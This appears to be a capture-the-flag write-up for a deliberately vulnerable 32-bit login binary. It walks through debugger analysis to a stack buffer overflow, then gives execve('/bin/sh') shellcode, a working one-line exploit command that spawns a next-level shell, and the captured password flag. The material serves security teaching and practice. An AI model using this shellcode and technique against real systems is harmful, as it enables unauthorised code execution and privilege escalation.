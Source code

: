 # Level 01 Buffer Overflow

## Overview
The binary is a basic login program that prompts for a `username` and `password`. It contains two `fgets()` functions with buffers of size `256` and `100`, suggesting potential **buffer overflow** vulnerabilities that could lead to *flow redirection* and *shellcode* execution.

### Main Function
```bash
./resources/r2.sh level01
[...]
[0x080483b0]> aaa
[0x080484d0]> s main
[0x080484d0]> V
[0x080484d0]> V
```
![R2 graph](../docs/media/l1.r2.png)

### Verify Username
The username comparison involves checking the first 7 characters against `"dat_wil"`, preventing a buffer overflow attack on this `fgets()` function.
```bash
[...]
[0x080484d0]> s sym.verify_user_name
[0x08048464]> V
[0x08048464]> V
```
![R2 Verify Username](../docs/media/l1.verify_username.png)

### `fgets` Buffer Sizes
Using `ltrace`, the buffer sizes of the 2 `fgets()` are 256 and 100 characters, on the addresses `0x0804a040` and `0xffffd6ec` respectively.
We can try to find out if the stack frame size available after the second `fgets()` call, is inside the size of the buffer, to see if we can overwrite the `EIP` address to redirect the flow.
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(hello
"hello\n", 100, 0xf7fcfac0)                               = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

### Finding EIP Offset
#### `gdb` Disassembled Main
```gdb
(gdb) disassemble main 
Dump of assembler code for function main:
   [...]
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>          # fgets username
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>   # verify username
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>          # fgets password
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>   # verify password
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret    
End of assembler dump.
```
#### Breakpoint after Password `fgets`
```
(gdb) break *0x08048579                                     # break after fgets password
Breakpoint 1 at 0x8048579

Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Hello this is the buffer :)

Breakpoint 1, 0x08048579 in main ()
```
#### EIP - Buffer Address
To finally find the `offset`, we need to find the difference between our `Buffer Address` and the `EIP` (address of the next instruction to be executed).
```
(gdb) x/s $eax
0xffffd6cc:	 "Hello this is the buffer :)\n"
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
```

$$
\begin{aligned}
\text{EIP} &= \texttt{0xffffd71c} \\
\text{Buffer Address} &= \texttt{0xffffd6cc} \\
\texttt{0xffffd71c} - \texttt{0xffffd6cc} &= 80 \\
\text{Offset} &= 80
\end{aligned}
$$

## Resolution

Information recolected:
- User inputs
    - Username `fgets` input.
        - **Buffer size** of 256.
        - **Buffer address** is `0x0804a040`.
        - `memcmp` of size 7.
    - Password `fgets` input.
        - **Buffer size** of 100.
        - **Buffer address** is `0xffffd6ec`.
        - The `EIP` is reachable from this **buffer**.

This is a very convenient scenario to inject *shellcode* inside the unused section of the first **buffer**, and redirect the flow changing the `EIP` to point to our *shellcode* address, using the second **buffer**.

## Payload

$$
\begin{aligned}
\text{Buffer1.address + 7} &= \text{"\textbackslash x47\textbackslash xa0\textbackslash x04\textbackslash x08"} \\
\text{Buffer1} &= \text{"dat\_wil"} + \text{Shellcode} \\
\text{Buffer2} &= \text{80 character padding} + \text{Buffer1.address + 7}
\end{aligned}
$$

### Shellcode
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

## Result

This one line command is able to run a shell as a level02 user.
```bash
cat <(printf "dat_wil\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n%80c\x47\xa0\x04\x08\n" | tr ' ' 'a') - | ./level01
```

## Flag

```bash
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
